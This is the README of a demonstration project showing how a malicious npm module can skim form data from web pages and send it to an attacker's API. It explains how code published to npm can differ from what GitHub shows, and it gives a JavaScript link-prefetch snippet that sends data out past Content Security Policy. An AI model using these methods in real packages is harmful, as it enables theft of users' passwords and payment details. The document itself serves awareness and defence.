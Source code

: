 If you're like me, you have grown to love how productive you can be using npm. There is a staggering
number of common problems that have already been solved. As developers, we tend to have an innate trust towards NPM and the code that is hosted on there. How often do we carefully examine the code we are about to important into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee at a large firm to start harvesting user's data. It shows just how hard it is to sniff out such an attack.

##### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson for all the ideas and even some of the code.

##### What all is here?

1. A basic React app with some form inputs
2. A npm module, 'bad_juju', that will house our malicious code
3. An api to receive the form data

##### Running the React Application

```javascript
# within demo dir
> yarn start
```

##### Running the API

```javascript
# within demo dir
> node ./api
```

##### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


##### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame.